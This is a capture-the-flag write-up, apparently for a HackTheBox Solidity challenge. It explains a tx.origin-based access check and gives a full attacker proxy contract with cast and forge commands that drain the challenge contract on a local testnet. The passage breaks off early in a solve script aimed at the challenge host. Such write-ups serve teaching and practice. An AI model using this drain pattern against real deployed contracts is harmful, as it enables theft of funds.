

This Local Testnet will provide you with 10 Accounts (wallets) with Private Keys. Each account starts with 10,000 ETH. Choose one wallet here to deploy the challenge.



Before deploying, you can try some interactions, for example, checking the balance of account 1:

```bash
cast balance 0x70997970C51812dc3A010C7d01b50e0d17dc79C8 --rpc-url http://127.0.0.1:8545 --ether
```



Transfer 10 ETH from Wallet (0) to Wallet (1):

```bash
cast send --rpc-url http://127.0.0.1:8545 \
--private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 \
0x70997970C51812dc3A010C7d01b50e0d17dc79C8 \
--value 10ether
```



You can see that only actions that change state (State Change) are recorded in blocks and cost Gas. Here, the first transaction was recorded in Block Number: 1. Read-only actions (like checking balance) that don't change anything won't be recorded on the Block and won't cost Gas.

- Transaction: 0x3178... **(Tx Hash):**
  - This is the **unique identifier ID** of this transaction.
  - In reality (Mainnet), you paste this into Etherscan to look up. In CTF, use this to debug if the transaction fails.
- Gas used: 21000 **(Important Number):**
  - **Why 21,000?** This is the **Base cost** for a basic ETH transfer (from one wallet to another) without **running any Smart Contract logic**.
  - Security Perspective: If you see this number **greater than 21,000** (e.g., 45,000 or 100,000), it means the receiving wallet is a **Smart Contract** and it executed some code (could be logging, or malicious code). Since this is a regular ETH transfer between 2 wallets, it's exactly 21,000.

Before deploying the challenge/contract, we need to look at `src/Setup.sol`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

The Contract requires sending 1 ether upon deployment as capital for smooth operation, after which it transfers 10 Wei to the child contract `Creature`. The goal `isSolved()` checks if `address(TARGET).balance == 0`. Meaning you must find a way to retrieve (or destroy) the **10 wei** currently inside that Creature.

Deploy the Setup contract with the private key of wallet (0). Remember to add the `--broadcast` flag to deploy on-chain; without it, it runs in **"Dry Run"** mode. It only simulates the transaction to calculate Gas and check for logic errors without actually taking the transaction to the Anvil network.

```bash
forge create src/Setup.sol:Setup \
--rpc-url http://127.0.0.1:8545 \
--private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 \
--value 1ether \
--broadcast
```



Output:
```txt
Deployer: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Deployed to: 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512
Transaction hash: 0xcf63e4ced8a21f5a23cd33c888b553cd60fa14e2c0d40524de791740a6fdcf3f
```

Based on the log, we know the Setup Contract address is: `0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512`.

Check the `isSolved()` function of the contract, confirming it's not solved yet (obviously):

```bash
cast call 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 "isSolved()(bool)" --rpc-url http://127.0.0.1:8545
# Output: false
```

We can view the target address (Creature child contract mentioned above) by:

```bash
cast call 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 "TARGET()(address)" --rpc-url http://127.0.0.1:8545
# Output: 0xCafac3dD18aC6c6e92c921884f9E4176737C052c
```

Check the target's balance (10 wei):

```bash
cast balance 0xCafac3dD18aC6c6e92c921884f9E4176737C052c --rpc-url http://127.0.0.1:8545
# Output: 10
```

### 2.3 Source code analysis

Source code `Creature.sol`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Our **Win Condition** is to make `address(TARGET).balance == 0` (`isSolved()` in Setup.sol). To do that, look at the `loot()` function:

```javascript
function loot() external {
    require(lifePoints == 0, "Creature is still alive!");
    payable(msg.sender).transfer(address(this).balance);
}
```

To withdraw money (`transfer`), `lifePoints` must be 0 (must kill the creature to get the money - 10 wei).

We have 2 state variables to care about in `Creature.sol`:

-   `uint256 public lifePoints` (HP of the creature).
-   `address public aggro` (Person currently holding the creature's attention).

Since both variables are `public`, Solidity automatically creates getter functions for them. The easiest way to check the state of these 2 variables is:

1.  Check HP (`lifePoints`) initialized at 1000.

```bash
cast call 0xCafac3dD18aC6c6e92c921884f9E4176737C052c "lifePoints()(uint256)" --rpc-url http://127.0.0.1:8545
# Output: 1000
```

2.  Check Aggro (`aggro`), initially no one attacking, so default value is 0 (zero address).

```bash
cast call 0xCafac3dD18aC6c6e92c921884f9E4176737C052c "aggro()(address)" --rpc-url http://127.0.0.1:8545
# Output: 0x0000000000000000000000000000000000000000
```

Also, if the variable was `private` (no getter function), you would be forced to peek into the Contract's Storage Slots.

Based on declaration order in code:
-   Slot 0: `lifePoints`
-   Slot 1: `aggro`

-   Read Slot 0 (`lifePoints`):
```bash
cast storage 0xCafac3dD18aC6c6e92c921884f9E4176737C052c 0 --rpc-url http://127.0.0.1:8545 | cast to-dec
# Output: 1000
```

-   Read Slot 1 (`aggro`):
```bash
cast storage 0xCafac3dD18aC6c6e92c921884f9E4176737C052c 1 --rpc-url http://127.0.0.1:8545
# Output: 0x0000000000000000000000000000000000000000000000000000000000000000
```

To attack and reduce Creature's `lifePoints` to 0, look at the `attack` logic:

```javascript
function attack(uint256 _damage) external {
    if (aggro == address(0)) {
        aggro = msg.sender; // 🐞 Bug: Aggro locks forever. Never resets.
    }

    // 🔓 Exploit: Caller is a Contract AND not the current Aggro holder.
    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}

function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender; // 🛡️ Check: Caller must be a Contract.
}
```

The Challenge is built on a "Tag Team Attack" scenario, like co-op games: one tanker attracts the monster's attention so it drops its guard, while an assassin uses that moment to hit the monster's weak point.


```javascript
if (aggro == address(0)) {
    aggro = msg.sender; // 🐞 Bug: Aggro locks forever. Never resets.
}
```

Since `aggro` is initialized as address 0, when a wallet or contract first calls this `attack` function, `aggro` is set to `msg.sender` (that wallet/contract address). In the rest of the logic, state is never changed again, meaning it's assigned once forever. `aggro` never changes. Here, the first person to call the contract plays the tanker role, attracting the monster's attention (no damage needed).

We can confirm `aggro` is set once and never changes by running a test (no gas, not on-chain) to debug (ask AI to gen debug file and run it to understand better).

```bash
forge test --match-path test/DebugCreature.t.sol -vv
```



To deal damage, the assassin/attacker must satisfy both conditions simultaneously:

-   `_isOffBalance()` is True → `tx.origin != msg.sender`
-   `aggro != msg.sender`

1.  `aggro != msg.sender` is simple. Suppose we use wallet (9) for the first call, `aggro` = wallet (9). Next time we use another wallet, say wallet (1), this condition is satisfied because `aggro` (9) != `msg.sender` (1).

2.  For `_isOffBalance()` to be True, we must clearly distinguish between `tx.origin` and `msg.sender`.

| **Situation** | **tx.origin** | **msg.sender** | **Function returns** |
| :--- | :--- | :--- | :--- |
| EOA calls directly | A | A | false |
| EOA -> Contract -> Creature | A | Contract | true |
| EOA → Contract1 -> Contract2 -> Creature | A | Contract2 | true |

Simple analogy: To go from A->Z via path [A, F, G, Z]:
-   `tx.origin` is A
-   `msg.sender` is G

`tx.origin` is the **original sender**, `msg.sender` is the **person directly handing the letter to you**.

### 2.4 Exploit

The exploit strategy is:

-   **From EOA (e.g., account9)** call `attack(0)` directly to **lock** `aggro = account9` (just set, no HP reduction).
-   **Deploy an attacker contract** via account9.
-   **From account9** call the function on the attacker contract, and the attacker contract calls `Creature.attack(1000)`. In this call:
    -   `tx.origin` = account9 (EOA),
    -   `msg.sender` = attacker contract,
    -   Therefore `_isOffBalance()` is **true** and `aggro != msg.sender` (aggro is account9, msg.sender is attacker contract) → **HP is reduced**.
-   When `lifePoints == 0`, call `loot()` to withdraw funds.

This is similar to setting up a web2 proxy to bypass; we can consider this setting up a proxy contract.

```
STEP 1: THE BAIT (Locking the Aggro)
Action: Direct interaction to set yourself as the target.

[ 👤 EOA / YOU ] ──────────────── attack(0) ───────────────> [ 👹 CREATURE ]
                                                             State Update:
                                                             🔒 aggro = EOA
                                                             ❤️ HP = 1000


--------------------------------------------------------------------------------


STEP 2: THE PROXY ATTACK (The "Man-in-the-Middle")
Action: Using a contract to bypass identity checks.

                    (1) call                (2) attack(1000)
[ 👤 EOA / YOU ] ──────────> [ 🤖 PROXY ] ─────────────────> [ 👹 CREATURE ]
   (tx.origin)               (msg.sender)                    Logic Check:
        │                         │                          
        │                         │                          1. _isOffBalance?
        │                         │                             (EOA != Proxy) 👉 ✅ TRUE
        │                         └───────────────────────┐  
        └──────────────────────────────────────────────┐  │  2. aggro != msg.sender?
                                                       │  │     (EOA != Proxy) 👉 ✅ TRUE
                                                       ▼  ▼  
                                                     [ 💀 HP = 0 ]
```

**Executing Exploit on Local Chain**

**Step 1: Get TARGET address**

```bash
SETUP=0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512
RPC=http://127.0.0.1:8545
TARGET=$(cast call $SETUP "TARGET()(address)" --rpc-url $RPC)
echo $TARGET
# Output: 0xCafac3dD18aC6c6e92c921884f9E4176737C052c
```

**Step 2: From account9, set aggro = account9** (call directly to TARGET Creature contract, no HP reduction, to attract monster attention)
(private key account9 = `0x2a871d0798f97d79848a013d4936a73bf4cc922c825d33c1cf7073dff6d409c6`)

```bash
PRIVATE_KEY=0x2a871d0798f97d79848a013d4936a73bf4cc922c825d33c1cf7073dff6d409c6

cast send $TARGET "attack(uint256)" 0 \
--private-key $PRIVATE_KEY \
--rpc-url $RPC
```

**Step 3: Check aggro**, confirm `aggro` is set to account9's address.

```bash
cast call $TARGET "aggro()(address)" --rpc-url $RPC
```



**Step 4: Create Attacker contract** (file `src/Attacker.sol`)

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

// 1. Interface: Defines "buttons" we can press on the target.
// No logic implementation here, just function signatures.
interface ICreature {
    function attack(uint256 _damage) external;
    function loot() external;
}

contract Attacker {
    address public target;

    // 2. Constructor: Load the target address once upon deployment.
    constructor(address _target) {
        target = _target;
    }

    // 3. Main Attack Function
    function exploit() external {
        // Step A: Attack via Proxy.
        // - msg.sender = This Contract Address (Bypassing checks).
        // - tx.origin = Your Wallet (Hacker).
        ICreature(target).attack(1000);

        // Step B: Drain the funds from Creature to this contract.
        ICreature(target).loot();

        // Step C: Transfer all ETH from this contract to your wallet.
        payable(msg.sender).transfer(address(this).balance);
    }

    // 4. Receive: Required to accept ETH sent from Creature during loot().
    receive() external payable {}
}
```

1.  **Interface (ICreature)**:
    -   Function: Like a "remote control", helps the contract know how to talk to the Target contract (Creature).
    -   Meaning: We just declare function names (attack, loot) to call, ignoring internal Creature code.

2.  **Constructor**:
    -   Function: Set target.
    -   Meaning: Runs once on deploy to save victim address to `target` variable. Helps future functions know where to attack.

3.  **exploit() Function (Heart of the attack)**:
    Executes a 3-hit combo:
    -   Step A (**attack**): Call attack via Proxy.
        -   Here, `msg.sender` is Attacker Contract, `tx.origin` is Hacker's Wallet.
    -   Step B (**loot**): Withdraw money from victim to Attacker Contract.
    -   Step C (**transfer**): Transfer all stolen money from Attacker Contract to Hacker's Wallet (`msg.sender`).

4.  **receive() Function**:
    -   Function: Open the bag to catch money.
    -   Meaning: When Step B (loot) runs, victim sends ETH over. Without this function, transaction reverts and you get nothing.

**Step 5: Deploy Attacker Contract**

We use `forge create` to put `Attacker.sol` on the local chain, passing `$TARGET` into the constructor.

```bash
forge create src/Attacker.sol:Attacker \
--private-key $PRIVATE_KEY \
--rpc-url $RPC \
--broadcast \
--constructor-args $TARGET
```



Output:
```txt
No files changed, compilation skipped
Deployer: 0xa0Ee7A142d267C1f36714E4a8F75612F20a79720
Deployed to: 0xA15BB66138824a1c7167f5E85b957d04Dd34E468
Transaction hash: 0xe2c2789eaf3bf062d533efd194401e90eb7de2cd2ec289decd90f8214084259f
```

**Step 6: Exploit**

Knowing the deployed attacker contract address is `0xA15BB66138824a1c7167f5E85b957d04Dd34E468`, call `exploit()` function to execute.

```bash
ATTACKER=0xA15BB66138824a1c7167f5E85b957d04Dd34E468

cast send $ATTACKER "exploit()" \
--private-key $PRIVATE_KEY \
--rpc-url $RPC
```



Output:
```txt
transactionHash 0x01f8d2c98ec1847b6de433adfa22104437beb44f85cbeccfa969bb5084a9b10e
```

**Step 7: Verify**

Check monster HP (Must be 0):

```bash
cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC
```

Check monster wallet (Must be empty - 0):

```bash
cast balance $TARGET --rpc-url $RPC
```

Check isSolved (Must be True):

```bash
cast call $SETUP "isSolved()(bool)" --rpc-url $RPC
```



**Trace transaction**

```bash
cast run 0x01f8d2c98ec1847b6de433adfa22104437beb44f85cbeccfa969bb5084a9b10e \
--rpc-url http://127.0.0.1:8545 \
--quick
```



-   Hacker (`0xa0Ee…9720`) wallet 9 calls `exploit()` on Attacker (`0xA15B…E468`).
-   Attacker calls `attack(1000)` on Creature (`0xCafa…052c`) -> (HP to 0).
-   Attacker calls `loot()` on Creature.
-   Inside `loot`: Creature transfers 10 wei to Attacker.
-   Trace: `0xA15B...::fallback{value: 10}()` (Money from Creature -> Attacker).
-   Attacker executes final line `transfer(address(this).balance)`.
-   Result: Attacker transfers 10 wei to Hacker.
-   Trace: `0xa0Ee...::fallback{value: 10}()` (Money from Attacker → Wallet 9 - Hacker).

**Practice on HackTheBox**



Full challenge solve script:

```bash
#!/bin/bash
set -e # Stop immediately on error

# --- CONFIGURATION ---
HOST="http://83.136.253.144:56767"
RPC="$HOST/rpc"
GREEN='\033[0;32m'
CYAN='\033[0;36m'
NC='\033[0m'

# Helper Functions
log() { echo -e "${CYAN}[*] $1${NC}"; }
success() { echo -e "${GREEN}[+] $1${NC}"; }

check_metrics() {
    local H_BAL=$(cast balance $HACKER --rpc-url $RPC)
    local T_BAL=$(cast balance $TARGET --rpc-url $RPC)
    local HP=$(cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC)
    printf " %-15s %s\n" "Hacker Bal:" "$H_BAL"
    printf " %-15s %s\n" "Target Bal:" "$T_BAL"
    printf " %-15s %s\n" "Target HP:" "$HP"
}

# --- PHASE 1: SETUP ---
log "Phase 1: Init & Reset"

curl -s "$HOST/restart" > /dev/null # Reset game

JSON=$(curl -s "$HOST/connection_info")
